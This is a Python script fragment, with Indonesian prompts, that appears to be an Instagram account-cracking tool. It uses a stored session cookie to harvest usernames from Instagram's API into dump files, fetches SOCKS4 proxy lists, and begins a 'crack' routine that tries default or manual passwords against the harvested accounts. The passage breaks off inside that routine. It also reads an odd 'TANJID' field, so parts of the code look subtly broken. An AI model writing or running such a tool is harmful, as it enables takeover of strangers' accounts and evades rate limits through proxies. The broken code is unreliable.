 # Dump Search
def ___search___():
    try:
        ___user = input(f"\n{H}[{P}?{H}]{P} USERNAME :{K} ")
        if ___user[:1] in ['1','2','3','4','5','6','7','8','9','0']:
            exit(f"{P}[{M}*{P}]{M} MOHON GUNAKAN USERNAME !")
        else:
            ___roz = requests.get(f'https://www.instagram.com/{___user}/?__a=1', headers = {'user-agent': 'Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)', 'cookie': open('Data/coki.txt','r').read()}).json()['graphql']['user']
            print(f"{P}[{H}*{P}]{P} NAMA :{K} {___roz['TANJID']}\n")
            ___file = (___roz['TANJID'].replace(' ','_')+'.txt')
        with requests.Session() as ses:
            ___zak = ses.get(f'https://i.instagram.com/api/v1/fbsearch/accounts_recs/?target_user_id={___roz["id"]}&include_friendship_status=true', headers = {'user-agent': 'Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)', 'cookie': open('Data/coki.txt','r').read()}).json()
            for z in ___zak['users']:
                open('Dump/'+___file, 'a').write(z['username']+'<=>'+z['TANJID']+'\n')
                print(f"{H}{z['username']}{P}<=>{H}{z['TANJID']}")
            print(f"{H}[{P}•{H}]{P} COPY FILE :{H} Dump/{___file}")
            input(f"{P}[{K}TEKAN ENTER{P}]{P}");___menu___()
    except (KeyError):
        exit(f"{P}[{M}*{P}]{M} GAGAL DUMP !")
    except (ConnectionError):
        exit(f"{P}[{M}*{P}]{M} KONEKSI INTERNET ERROR !")
# Proxy
def ___proxy___():
    try:
        ___roz = requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
        open('Data/proxy.txt', 'w').write(___roz)
    except Exception as e:
        ___roz = requests.get('https://raw.githubusercontent.com/RozhakXD/Premium/main/Data/proxy2.txt').text
        open('Data/proxy.txt', 'w').write(___roz)
    ___crack___()
# Crack
class ___crack___:
    
    def __init__(self):
        self.kill = 0
        self.ok = []
        self.cp = []
        print(f"\n{H}[{P}1{H}]{P} GUNAKAN PASSWORD BAWAAN {K}")
        print(f"{H}[{P}2{H}]{P} GUNAKAN PASSWORD MANUAL {K}\n")
        ___pilih = input(f"{B}[{P}?{B}]{P} Choose :{H} ")
        if ___pilih in ['2','02']:
            pwx = input(f"{B}[{P}•{B}]{P} PASSWORD :{H} ").split(',')
        try:
            self.___dump = input(f"{B}[{P}?{B}]{P} FILES :{H} ")
            self.___file = open(self.___dump, 'r').read().splitlines()
        except (IOError):
            exit(f"{P}[{M}!{P}]{M} FILE TIDAK ADA CIL !")
        try:
            print(f"\n{H}[{P}•{H}]{P} RESULT OK TERSIMPAN DI > Results/Ok.txt")